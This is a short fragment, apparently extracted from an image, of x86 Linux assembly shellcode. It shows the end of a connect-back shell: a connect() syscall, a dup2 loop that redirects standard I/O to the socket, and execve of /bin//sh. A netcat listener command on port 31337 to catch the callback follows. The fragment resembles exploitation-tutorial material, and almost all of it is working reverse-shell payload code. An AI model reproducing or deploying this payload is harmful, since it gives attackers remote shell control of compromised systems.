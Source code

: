 ```
  inc ebx           ; ebx = 3 = SYS_CONNECT = connect()
  int 0x80          ; eax = connected socket FD

; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx     ; Put socket FD in ebx and 0x00000003 in eax.
  push BYTE 0x2     ; ecx starts at 2.
  pop ecx
dup_loop:
  mov BYTE al, 0x3F ; dup2  syscall #63
  int 0x80          ; dup2(c, 0)
  dec ecx           ; Count down to 0.
  jns dup_loop      ; If the sign flag is not set, ecx is not negative.

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11.
  push edx          ; push some nulls for string termination.
  push 0x68732f2f   ; push "//sh" to the stack.
  push 0x6e69622f   ; push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx via esp.
  push edx          ; push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr.
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

to catch the resulting callback you can use a program like netcat to set up a tcp listener with the following syntax

```
nc -v -l -p 31337
```
